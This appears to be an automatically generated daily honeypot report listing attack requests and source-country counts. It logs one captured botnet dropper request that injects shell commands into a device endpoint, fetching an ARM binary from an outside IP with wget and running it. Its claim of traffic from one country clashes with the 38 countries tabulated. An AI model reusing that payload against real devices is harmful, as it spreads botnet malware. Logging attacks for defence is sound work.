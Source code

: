 ```yaml
---
title: "Report: 2025-06-11 "
date: 2025-06-11
desciption: "Report: 2025-06-11" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-11 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 7 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 838 requests were recorded during the day, originating from 1 different countries, with a peak of 249 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| DE               | Germany            |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                                     |
|:--------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.147 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3Bkillall -9 arm7%3B%20wget%20http%3A%2F%2F94.26.90.251%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                 |
|----:|----------------------:|:--------------------------------------------------------|
|  24 |                     4 | POST /bapply.cgi HTTP/1.1                               |
|  76 |                     1 | GET /OdinHttpCall1749604030 HTTP/1.1                    |
|  92 |                     1 | GET /Odin/http/call1749604030 HTTP/1.1                  |
| 100 |                     1 | HEAD /phpMyAdmin-2/scripts/setup.php HTTP/1.1           |
| 143 |                     1 | GET /odinhttpcall1749604030 HTTP/1.1                    |
| 286 |                     1 | \x00\x0E\x08\x97\xC0Zt\x00\x857\xDA\x00\x00\x00\x00\x00 |
| 301 |                     1 | \x00\x0E8\x97\xC0Zt\x00\x857\xDA\x00\x00\x00\x00\x00    |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   249 | US                 |
|  1 |                   105 | DE                 |
|  2 |                   105 | BG                 |
|  3 |                    69 | NL                 |
|  4 |                    48 | KZ                 |
|  5 |                    36 | GB                 |
|  6 |                    22 | SC                 |
|  7 |                    21 | PL                 |
|  8 |                    20 | CA                 |
|  9 |                    20 | RU                 |
| 10 |                    17 | CN                 |
| 11 |                    15 | SG                 |
| 12 |                    12 | VN                 |
| 13 |                    12 | JP                 |
| 14 |                     9 | AO                 |
| 15 |                     8 | IL                 |
| 16 |                     8 | UA                 |
| 17 |                     7 | IN                 |
| 18 |                     6 | KR                 |
| 19 |                     6 | LT                 |
| 20 |                     5 | FR                 |
| 21 |                     5 | ZA                 |
| 22 |                     5 | SE                 |
| 23 |                     4 | NG                 |
| 24 |                     4 | BE                 |
| 25 |                     3 | AM                 |
| 26 |                     2 | TR                 |
| 27 |                     2 | BR                 |
| 28 |                     2 | HK                 |
| 29 |                     2 | GR                 |
| 30 |                     2 | HN                 |
| 31 |                     1 | PK                 |
| 32 |                     1 | ID                 |
| 33 |                     1 | RS                 |
| 34 |                     1 | AR                 |
| 35 |                     1 | EC                 |
| 36 |                     1 | IE                 |
| 37 |                     1 | GH                 |
